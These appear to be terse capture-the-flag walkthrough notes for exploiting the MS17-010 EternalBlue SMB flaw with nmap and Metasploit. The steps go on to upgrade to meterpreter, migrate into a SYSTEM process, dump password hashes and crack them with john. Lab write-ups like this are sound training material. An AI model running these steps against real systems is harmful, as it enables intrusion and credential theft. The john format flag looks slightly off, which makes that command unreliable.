 `nmap --script vuln` shows ms17_010 vulnerability.  metasploit search finds exploits/windows/smb/ms17_010_eternalblue

Set RHOSTS and exploit for shell.

background shell and use `post/multi/manage/shell_to_meterpreter`, set the required option and run. confirm escalation by enterering merterpreter session, `shell` and `whoami`

look for ps with `NT AUTHORITY\SYSTEM` and migrate to the id

hashdump and crack
```sudo john --wordlist=/opt/wordlists/rockyou.txt --format=nt2 hashdump```

Find the flags!
